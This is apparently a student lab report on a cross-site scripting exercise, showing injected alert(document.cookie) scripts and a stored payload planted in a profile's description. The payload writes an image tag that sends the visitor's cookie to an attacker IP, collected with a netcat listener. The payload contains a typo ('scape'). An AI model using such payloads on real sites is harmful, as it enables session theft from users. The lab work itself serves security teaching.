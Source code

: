 <img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_9af32eb5a53945574188dd9a44636f6b.png"/>

<div style="page-break-after: always;"></div>

## TASK02: Posting a Malicious Message to Display 

We directly modified the code in the "*myscripts.js*" to the code below. (We also removed all cached data)
```javascript
alert(document.cookie);
```
As the image below shows it successfully accessed data in the cookie of the website.  

<img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_f1249fbf6446ae97be27d578e6088274.png"/>


We also tried to directly insert the code `<script>alert(document.cookie);</script>`. As the image shows, it also worked.  

<img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_fe6c20031ba1210c88eea2f7aae87748.png"/>


(PS. the popped-out values were different because we changed the login account from Alice to Samy)

<div style="page-break-after: always;"></div>

## TASK03: Stealing Cookies from the Victim’s Machine

### 3.1 Update the Brief Description

We update Samy's **Brief Description** with the following codes. 
``` javascript
<script>
    // 10.0.2.15 is IP address of the attacker
    document.write(
        "<img src=http://10.0.2.15:5555?c=" 
        + "scape(document.cookie)" + ">"
    );
    alert(document.cookie);
</script>
```

### 3.2 Listening from attacker

We used the `netcat` command with "-l" option to listening the data send to attacker. The command are listed in section below. 
```shell 
$ nc -l 5555 -v
```

### 3.3 Stealing cookie when some accessed the profile

We logged-in with Alice's account, and then accessed Samy's profile. The image below shows the webpage after Alice accessing.  
